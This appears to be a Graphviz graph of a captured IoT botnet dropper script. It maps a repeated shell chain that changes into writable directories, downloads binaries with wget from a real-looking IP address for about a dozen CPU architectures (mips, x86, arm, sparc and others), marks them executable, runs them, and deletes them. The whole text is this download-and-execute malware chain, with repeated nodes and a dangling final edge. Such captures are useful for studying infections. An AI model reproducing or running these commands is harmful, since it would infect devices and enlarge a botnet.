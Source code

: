 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://46.165.253.13/IoTmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x IoTmips "];
12 -> 14 [label=";,"];
14 [label="./IoTmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf IoTmips "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://46.165.253.13/IoTmips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x IoTmips64 "];
30 -> 32 [label=";,"];
32 [label="./IoTmips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf IoTmips64 "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://46.165.253.13/IoTmipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x IoTmipsel "];
48 -> 50 [label=";,"];
50 [label="./IoTmipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf IoTmipsel "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://46.165.253.13/IoTsh4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x IoTsh4 "];
66 -> 68 [label=";,"];
68 [label="./IoTsh4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf IoTsh4 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://46.165.253.13/IoTx86 "];
82 -> 84 [label=";,"];
84 [label="chmod +x IoTx86 "];
84 -> 86 [label=";,"];
86 [label="./IoTx86 "];
86 -> 88 [label=";,"];
88 [label="rm -rf IoTx86 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://46.165.253.13/IoTi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x IoTi686 "];
102 -> 104 [label=";,"];
104 [label="./IoTi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf IoTi686 "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://46.165.253.13/IoTpowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x IoTpowerpc "];
120 -> 122 [label=";,"];
122 [label="./IoTpowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf IoTpowerpc "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://46.165.253.13/IoTm86k "];
136 -> 138 [label=";,"];
138 [label="chmod +x IoTm86k "];
138 -> 140 [label=";,"];
140 [label="./IoTm86k "];
140 -> 142 [label=";,"];
142 [label="rm -rf IoTm86k "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://46.165.253.13/IoTsparc "];
154 -> 156 [label=";,"];
156 [label="chmod +x IoTsparc "];
156 -> 158 [label=";,"];
158 [label="./IoTsparc "];
158 -> 160 [label=";,"];
160 [label="rm -rf IoTsparc "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://46.165.253.13/IoTarmv4 "];
172 -> 174 [label=";,"];
174 [label="chmod +x IoTarmv4 "];
174 -> 176 [label=";,"];
176 [label="./IoTarmv4 "];
176 -> 178 [label=";,"];
178 [label="rm -rf IoTarmv4 "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://46.165.253.13/IoTarmv5 "];
190 -> 192 [label=";,"];
192 [label="chmod +x IoTarmv5 "];
192 -> 194 [label=";,"];
194 [label="./IoTarmv5 "];
194 -> 196 [label=";,"];
196 [label="rm -rf IoTarmv5 "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://46.165.253.13/IoTarmv6 "];
208 -> 210 [label=";,"];
210 [label="chmod +x IoTarmv6 "];
210 -> 212 [label=";,"];
212 [label="./IoTarmv6 "];
212 -> 213 [label=";,"];
}
